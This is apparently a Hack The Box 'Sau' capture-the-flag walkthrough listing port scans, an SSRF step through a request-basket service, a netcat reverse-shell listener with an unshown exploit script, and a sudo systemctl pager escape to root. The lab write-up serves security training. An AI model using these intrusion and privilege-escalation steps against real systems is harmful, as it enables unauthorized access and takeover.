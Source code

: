 # HTB_Sau
Walkthrough Hack The Box: Sau

# IP: 10.10.11.224

# Step 1: Scanning

 $ rustscan -a 10.10.11.224

 $ sudo nmap -sC -sV -oN map.txt 10.10.11.224

 # Step 2:

 Access website

 http://10.10.11.224:55555/web

 Create your basket

 Open basket configuration setting and enter loopback IP http://127.0.0.1:80/ & tick all boxes

 Copy the link Generated: http://10.10.11.224:55555/abhishek

 # Step 3:

 Open two terminals A & B

 ## Terminal A:
Start Listener
$ nc -lnvp 9999

 ## Terminal B:
 Run exploit 

 $ python3 sau_script.py 10.10.14.158 9999 http://10.10.11.224:55555/abhishek 

 ## Back to Terminal A: Reverse Shell Opened

ls
cat root.txt
cd
sudo -l
sudo systemctl status trail.service
!sh -> to terminate
cd
ls
cat root.txt



 
